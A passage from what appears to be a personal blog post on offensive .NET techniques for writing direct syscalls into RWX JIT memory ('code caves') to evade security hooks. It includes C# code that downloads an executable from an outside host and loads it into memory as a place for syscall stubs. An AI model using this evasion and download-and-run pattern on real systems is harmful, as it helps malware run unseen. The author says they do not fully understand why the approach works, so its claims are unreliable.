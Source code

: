 <img src="https://github.com/susMdT/secondsite.github.io/blob/master/assets/img/nogate_3.PNG?raw=true" class="mx-auto d-block" unselectable="on"/>
<center><i>The code cove with a syscall already written.</i></center>

This space is also RWX since its still in the same page, so I thought it was the perfect region to write our syscalls in. And while it does work, there may be some ramifications for writing in this dynamic memory page. I wouldn't know though, since thecode works, and idk what I'm really doing.  ¯\\\_(ツ)\_/¯.  Also, while there is a large code cave at the bottom of the memory page, since the memory keeps filling up downwards during runtime, there's some sort of race condition where even if a code cave is found, by the time I get to writing the syscall to it, that cave is filled with some code and overwriting it explodes the program. Which is why I decided to look above in the memory rather than downwards.

### Second solution
This one came by accidently, but is also cool. I also think this is a relatively more safe approach since we won't be randomly overwriting some empty spot in memory that may be empty for a reason. Anyways, in this approach, we load a new .NET Assembly into memory, find its entrypoint, and overwrite it with our syscall. Because apparently, the entrypoint of loaded .NET assemblies is within an RWX space ... very nice. I'm assuming this also has to do with JIT stuff, too.
```
WebClient wc = new WebClient();
byte[] fbytes = wc.DownloadData("http://172.29.104.228:8000/Inline-Test.exe");
Assembly a = Assembly.Load(fbytes);

MethodInfo m = a.EntryPoint;

Assembly thisAss = Assembly.GetExecutingAssembly();
foreach (var mod in a.GetLoadedModules())
{
	Console.WriteLine(mod.Assembly.FullName);
	Console.WriteLine("0x{0:X}", (long)mod.Assembly.EntryPoint.MethodHandle.GetFunctionPointer());
}
this.codeCove = a.GetLoadedModules()[0].Assembly.EntryPoint.MethodHandle.GetFunctionPointer();
```
